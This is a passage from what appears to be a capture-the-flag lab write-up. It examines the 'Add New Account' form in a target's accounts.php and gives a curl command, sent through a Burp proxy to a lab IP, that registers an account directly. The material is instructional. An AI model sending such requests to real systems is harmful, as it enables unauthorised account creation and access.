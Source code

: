 We can see a “Add New Account” section in the `accounts.php` page. This would be handy, it would prevent us from having to intercept all requests through Burp. We can take a look at the form’s requirements before sending a request with cURL to create an account:

```html
<form role="form" method="post" action="accounts.php">
  <div class="uk-margin">
    <div class="uk-inline">
      <span class="uk-form-icon" uk-icon="icon: user"></span>
      <input
        type="text"
        name="username"
        class="uk-input"
        id="username"
        placeholder="Username"
      />
    </div>
  </div>
  <div class="uk-margin">
    <div class="uk-inline">
      <span class="uk-form-icon" uk-icon="icon: lock"></span>
      <input
        type="password"
        name="password"
        class="uk-input"
        id="password"
        placeholder="Password"
      />
    </div>
  </div>
  <div class="uk-margin">
    <div class="uk-inline">
      <span class="uk-form-icon" uk-icon="icon: lock"></span>
      <input
        type="password"
        name="confirm"
        class="uk-input"
        id="confirm"
        placeholder="Confirm Password"
      />
    </div>
  </div>
  <button type="submit" name="submit" class="uk-button uk-button-default">
    CREATE USER
  </button>
</form>
```

Seeing as we have 4 fields: `username`, `password`, `confirm` and `submit`; we can create an account with this command:

```bash
curl -X POST --data "username=strix&password=strix&confirm=strix&submit=true" --proxy 127.0.0.1:8080 http://10.10.11.104/accounts.php
```
